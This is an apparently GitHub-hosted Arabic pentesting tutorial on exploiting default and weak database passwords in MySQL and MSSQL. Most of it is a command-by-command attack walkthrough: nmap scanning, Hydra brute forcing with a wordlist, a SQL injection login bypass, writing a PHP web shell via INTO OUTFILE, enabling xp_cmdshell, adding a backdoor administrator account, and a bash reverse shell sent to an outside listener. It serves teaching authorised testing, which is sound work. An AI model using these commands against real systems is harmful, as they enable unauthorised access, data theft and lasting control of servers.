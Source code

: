 # **1. إيه يعني Using Default Credentials or Weak Passwords for Database Authentication؟**

## **الشرح العميق:**
يعني إن قاعدة البيانات (زي MySQL، MSSQL، PostgreSQL) بتستخدم كلمات سر افتراضية (Default Credentials) أو كلمات سر ضعيفة جدًا (Weak Passwords) للمستخدمين بتوعها. "Default Credentials" هي اللي بتيجي جاهزة مع البرنامج (زي `root` بدون كلمة سر في MySQL أو `sa` بكلمة سر `admin` في MSSQL)، و"Weak Passwords" هي حاجة زي `1234` أو `password`. المشكلة إن المهاجمين بيعرفوا القيم الافتراضية دي، وكلمات السر الضعيفة بتكون سهلة التخمين، فلو ما اتغيرتش أو اتعملت أقوى، بيبقى الباب مفتوح لأي حد يدخل.

- **Default Credentials:** زي `root:` (فاضي) أو `sa:sa`.
- **Weak Passwords:** زي `admin123` أو `dbpass`.

## **الأدوات والأوامر العملية:**
### 1. **فحص MySQL:**
   - `mysql -u root -p -h 192.168.1.10` -> اضغط Enter بدون كلمة سر.
   - لو دخلت: `SHOW DATABASES;` -> يعني root مفتوح.

### 2. **فحص MSSQL:**
   - `sqlcmd -S 192.168.1.10 -U sa -P ""`.
   - لو نجحت، شغل: `SELECT @@VERSION;` -> يعني sa مفتوح.

### 3. **تخمين كلمات سر ضعيفة:**
   - بـ Hydra:
     - `hydra -l root -P /path/to/wordlist.txt mysql://192.168.1.10`.
     - لو لقيت `root:1234`، يبقى ضعيف.

## **خلاصة بالعامية المصرية:**
"يعني زي ما تكون سايب باب البيت مفتوح أو حاطط مفتاح تحت الدواسة وكاتب عليه `خش`! Default Credentials زي كلمة السر اللي بتيجي مع العربية، وWeak Passwords زي ما تكتب `123` وتقول محدش هيعرفها."

---

# **2. ليه المشكلة دي خطيرة؟**

## **الشرح العميق:**
الكلمات الافتراضية أو الضعيفة بتخلّي أي حد يقدر يدخل قاعدة البيانات بسهولة، وبما إن قاعدة البيانات فيها كل حاجة مهمة (زي بيانات العملاء، كلمات السر، أو معلومات الشركة)، المهاجم يقدر:
- **يسرق البيانات:** ياخد كل حاجة في الجداول.
- **يعدل أو يمسح:** يخرب النظام أو يغير بيانات.
- **يصعد صلاحيات:** لو قاعدة البيانات متصلة بالسيرفر، يقدر ياخد Shell أو يتحكم في النظام كله.

في الـ Pentesting، دي من أسهل الثغرات اللي بتلاقيها، لأن كتير من المسؤولين بيسيبوا الكلمات الافتراضية أو يحطوا حاجة ضعيفة وينسوا يغيروها.

## **الأدوات والأوامر العملية:**
### 1. **استغلال MySQL Default:**
   - `mysql -u root -h 192.168.1.10` -> لو دخلت:
     - `SELECT * FROM mysql.user;` -> تسريب بيانات المستخدمين.
     - `SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';`.

### 2. **استغلال MSSQL sa:**
   - `sqlcmd -S 192.168.1.10 -U sa -P "sa"`.
   - `EXEC xp_cmdshell 'whoami';` -> لو رجع `system`، يبقى سيطرت.

### 3. **SQL Injection للتخمين:**
   - `http://192.168.1.10/login.php?user=admin' OR 1=1 -- &pass=123`.
   - لو دخلت، يبقى التطبيق بيستخدم كلمة سر ضعيفة.

## **خلاصة بالعامية المصرية:**
"المشكلة دي خطيرة لأنها زي ما تكون سايب خزنة فلوسك مفتوحة وكاتب الكود جنبها! المهاجم يخش، ياخد كل حاجة، ولو لقى طريق للسيرفر، يبقى هو الباشا بتاعك."

---

# **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم الكلمات الافتراضية أو الضعيفة عشان تدخل قاعدة البيانات وتاخد وصول أعلى.
- **مثال واقعي:** لو لقيت MySQL مفتوح كـ root، تكتب Shell وتتحكم في السيرفر.

## **خلاصة بالعامية المصرية:**
"لما تلاقي كلمة سر زي دي، زي ما تكون لقيت مفتاح الباب في جيبك! بتستخدمه عشان تفتح كل حاجة وتبقى الكبير بتاع المكان."

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 3306: MySQL 5.7.
  - Port 1433: MSSQL.

## **الخطوة 2: تجربة Default Credentials**
- MySQL:
  - `mysql -u root -p -h 192.168.1.10` -> Enter بدون كلمة سر.
  - أو: `mysql -u root -proot -h 192.168.1.10`.
- MSSQL:
  - `sqlcmd -S 192.168.1.10 -U sa -P ""`.
  - أو: `sqlcmd -S 192.168.1.10 -U sa -P "sa"`.

## **الخطوة 3: تخمين Weak Passwords**
- لو ما نجحتش:
  - `hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://192.168.1.10`.
  - أو لـ MSSQL:
    - `hydra -l sa -P /usr/share/wordlists/rockyou.txt mssql://192.168.1.10`.

## **الخطوة 4: استغلال الوصول**
- في MySQL (لو دخلت كـ root):
  - `SELECT * FROM mysql.user;` -> تسريب بيانات.
  - `SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';`.
  - افتح: `http://192.168.1.10/shell.php?cmd=id` -> `www-data`.
- في MSSQL (لو دخلت كـ sa):
  - `EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;`.
  - `EXEC xp_cmdshell 'net user hacker pass123 /add';`.

## **الخطوة 5: تصعيد الصلاحيات**
- من Shell في لينكس:
  - `http://192.168.1.10/shell.php?cmd=/bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1`.
  - `nc -lvnp 4444` -> Shell -> `id` -> `sudo -l` -> تصعد لو لقيت حاجة.
- في ويندوز:
  - `EXEC xp_cmdshell 'net localgroup administrators hacker /add';`.
  - سجل دخول بـ `hacker:pass123`.

## **الخطوة 6: توثيق**
- سجل كلمات السر اللي نجحت (زي `root:` أو `sa:sa`).
- قدم تقرير يوضح إزاي دخلت وخطر الثغرة.

## **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت مفتاح الباب في التراب، فتحته، خدت كل حاجة، وطلعت الكبير بتاع الحتة! الكلمات الضعيفة دي طريقك للفوز بسهولة."

---

# **الخلاصة النهائية:**
Using Default Credentials or Weak Passwords for Database Authentication هي ثغرة خطيرة لأنها بتخلّي قاعدة البيانات مفتوحة لأي حد. في الـ Pentesting، دور عليها بـ Nmap وHydra، استغلها عشان تدخل، تسرق بيانات، أو تاخد Shell، ووري العميل إن نظامه زي بيت من غير قفل! بالطريقة دي، تبقى البطل بتاع اللعبة بكل سهولة!